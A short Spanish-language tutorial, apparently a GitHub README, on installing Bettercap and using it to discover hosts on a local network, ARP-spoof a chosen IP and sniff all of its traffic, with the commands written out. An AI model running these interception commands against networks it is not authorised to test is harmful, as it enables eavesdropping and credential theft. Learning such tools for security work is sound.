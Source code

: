 # Análisis con Bettercap
<br>

<p align="center">
<img src="./Img/logo.jpg">
</p>

<br>

Bettercap es una herramienta potente, flexible y portátil creada para realizar varios tipos de ataques MITM contra una red, manipular HTTP, HTTPS y tráfico TCP en tiempo real, buscar credenciales y mucho más.

<br>

## Instalación

```
sudo apt-get install build-essential ruby-dev libpcap-dev

apt-get update

apt-get install bettercap
```

<br>

## USO

Abriremos una nueva terminal y ejecutaremos lo siguientes comandos:

```
bettercap

net.probe on

ticker on
```

Como podmeos observar son las IP de nuestra red local.

<br>

![Informatica](Img/IP.jpg)

<br>

En la misma terminal ejecutaremos de nuevo bettercap, seleccionamos la IP que vamos analizár.

```
set arp.spoof targets 192.168.1.1

arp.spoof on

set net.sniff.verbose false

net.sniff on
```

Y nos mostrara todo el tráfico de la IP seleccionada.

<br>

![Informatica](Img/trafico.png)

<br>


